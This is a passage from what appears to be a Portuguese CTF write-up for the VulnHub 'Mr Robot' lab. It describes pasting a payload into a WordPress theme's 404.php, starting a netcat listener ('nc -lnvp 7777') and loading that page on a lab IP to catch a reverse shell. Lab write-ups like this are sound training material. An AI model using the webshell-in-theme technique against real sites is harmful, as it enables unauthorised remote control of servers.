 

Apagamos o conteudo do Tema e colamos o nosso payload no lugar. Depois subimos o payload para o servidor

![](/assets/img/Vulnhub/mrRobot/wordpress-payload.png)


# Shell Reverso

Vamos deixar a mesma porta, que configuramos no nosso payload, escutando para receber o shell e acessar a pagina que contem o nosso webshell...

```bash
nc -lnvp 7777
```

![](/assets/img/Vulnhub/mrRobot/shellReverso-nc.png)


```
http://192.168.110.6/wp-content/themes/twentyfifteen/404.php
```

![](/assets/img/Vulnhub/mrRobot/shellReverso-temaInfectado.png)
